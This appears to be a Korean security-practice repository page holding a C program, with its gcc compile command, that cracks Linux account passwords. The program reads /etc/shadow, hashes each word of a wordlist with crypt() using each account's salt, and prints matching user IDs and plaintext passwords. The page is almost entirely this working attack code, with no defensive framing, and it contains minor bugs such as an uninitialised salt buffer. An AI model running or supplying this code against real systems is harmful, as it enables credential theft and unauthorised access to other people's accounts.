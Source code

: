 # web_sec
crypt file (hack.c) 을 실행파일로 만들기 위해서 gcc 명령어를 사용한다. ( yum -y install gcc )

**gcc -o hack hack.c -lcrypt** 

This is an H1
=============
// linux 계정 Password Cracking Code

#include<stdio.h>
#include<string.h>
#include<stdlib.h>
#include<crypt.h>

int main(int argc, char * argv[ ]){

        FILE * victim = fopen("/etc/shadow","r");
        FILE * attack = fopen("/hack/dic","r");

        char read_shadow[1024];
        char * id;
        char * hash;
        char hash2[1024];
        char * salt;
        char salt_value[30];
        char read_dic[100];


        char * victim_hash;


        while(fgets(read_shadow, 1024, victim)){
                id = strtok(read_shadow, ":");

                hash = strtok(NULL, ":");
                strcpy(hash2, hash);

                if(hash[0] != '$') continue;

                salt = strtok(hash2, "$");
                salt = strtok(NULL, "$");

                strcat(salt_value, "$6$");
                strcat(salt_value, salt);
                strcat(salt_value, "$");

                fseek(attack, 0, SEEK_SET);

                while(fgets(read_dic, 100, attack)!=NULL){
                        read_dic[strlen(read_dic)-1]='\0';
                        victim_hash = crypt(read_dic, salt_value);
                        if(!strcmp(hash, victim_hash)){
                                printf("ID : %s, PW : %s\n", id, read_dic);
                                break;
                        }
                }
                memset(salt_value, 0, 30);
        }
}
